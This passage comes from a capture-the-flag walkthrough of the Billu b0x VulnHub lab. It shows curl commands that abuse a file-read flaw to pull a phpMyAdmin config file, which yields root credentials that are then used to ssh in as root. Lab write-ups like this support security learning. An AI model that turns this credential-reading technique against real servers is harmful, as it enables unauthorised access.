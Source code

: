 ## Low shell: method 2
We then google to find out the location of the config file.
![9-15.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-15.png)

When we get the low priv shell, looking around we found the __phpmyadmin__ config in `/phpmy`. The phpinfo file tells us webroot is `/var/www` putting the two together `/var/www/phpmy` Since we have a read file vulnerability we shall use it to read contents of the file.

    root@marksmith:~# curl -v -d "file=/var/www/phpmy/config.inc.php" http://192.168.109.129/test
    ...
    __$cfg['Servers'][$i]['user'] = 'root';__
    __$cfg['Servers'][$i]['password'] = 'roottoor';__
    $cfg['Servers'][$i]['AllowNoPassword'] = true;
    ....

    ?>

Better still we can 

    root@marksmith:~# curl -v -d "file=/var/www/phpmy/config.inc.php" http://192.168.227.140/test 2>&1 | grep -i pass

![9-16.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-16.png)

Using these credentials we can ssh `user:root password:roottoor`  in to the box.
And boom we're in as the root.

 ssh root@192.168.109.129


Then we're in as root.

[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
